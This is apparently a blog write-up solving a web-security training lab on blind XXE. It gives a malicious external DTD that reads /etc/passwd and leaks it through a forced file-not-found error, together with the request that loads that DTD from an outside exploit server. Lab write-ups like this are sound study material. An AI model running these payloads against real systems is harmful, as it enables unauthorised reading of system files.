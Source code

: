 ```yaml
---
layout: post
title:  "Exploiting blind XXE to exfiltrate data using a malicious external DTD"
date:   2024-11-23 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab has a `"Check stock"` feature that parses XML input but does not display the result.

To solve the lab, `use an external DTD to trigger an error message that displays the contents of the /etc/passwd file`.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

## Solution 

In the exploit server, we have created a malicious dtd file with a content where it fetches the contents of `/etc/passwd` and causes an error in file not found error and along with that we can see the contents of `/etc/passwd`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Now just like the lab, we can use the payload here

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0ab700ba0347f44b85cbfe1b01d10072.exploit-server.net/exploit.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Last time, we provided an external collaborator and got the response through that.. But here we didn't provide any external server or nothing.. instead we made a `exploit.dtd` which is intentionally getting crashed in the seconf step where we provided `file:///nonexistent/` which means it will cause an error like `File not found` and along with that `%file` which will disclose the contents of `/etc/passwd`

Now send the request with payload, observing the response with the contents of `/etc/passwd` which as expected 

![]({{ site.baseurl }}/assets/images/xxe/xxe-24.png)

And the lab is solved..

![]({{ site.baseurl }}/assets/images/xxe/xxe-25.png)